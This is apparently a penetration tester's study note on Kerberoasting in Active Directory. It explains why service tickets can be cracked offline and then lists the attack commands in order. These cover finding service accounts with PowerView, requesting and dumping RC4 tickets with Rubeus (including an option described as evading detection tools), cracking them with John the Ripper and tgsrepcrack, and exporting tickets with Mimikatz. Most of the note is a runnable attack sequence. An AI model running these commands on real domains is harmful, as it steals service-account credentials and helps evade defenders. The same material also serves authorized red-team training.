 ```yaml
---
tags:
  - privesc
cssclasses:
  - Rubeus
  - MimiKatz
  - john
  - TGS-REP
---
```

- [Offline cracking of service account passwords.](https://www.redsiege.com/wp-content/uploads/2020/08/Kerberoastv4.pdf)
- The [[Kerberos]] session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this is a good attack vector.
- An important point to note is that we need a service ticket that is encrypted with an NTLM hash (RC4) and not AES, which uses a salt. Bruteforcing the AES key would be extremely difficult.
- The DC will, however, oblige to the client's requests of using a ticket with downgraded encryption. Unless RC4 is disabled throughout the forest.
#### Obtaining tickets

```powershell title:"Find user accounts used as service accounts (PowerView)"
Get-DomainUser -SPN
```

```powershell title:"Find user accounts used as service accounts (ActiveDirectory Module)"
Get-ADUser -Filter {ServicePrincipleName -ne "$null"} -Properties ServicePrincipalName
```

```batch title:"Use Rubeus to list Kerberoast stats"
Rubeus.exe kerberoast /stats
```

```batch title:"Use Rubeus to request a TGS"
Rubeus.exe kerberoast /user:username /simple
```

```batch title:"To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC"
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:username /simple /rc4opsec
```

```batch title:"Kerberoast all possible accounts"
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

#### Cracking

```batch title:"Crack the ticket"
john.exe --wordlist:C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

#### Misc.

```batch title:"Check if the ticket has been granted"
klist.exe
```

```powershell title:"Export all tickets using Mimikatz (that were imported via /ptt)?"
Invoke-MimiKatz -Command '"kerberos::list /export"'
```

```batch title:"Crack the service account password"
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt 'tgs_file_name.kirbi'
```
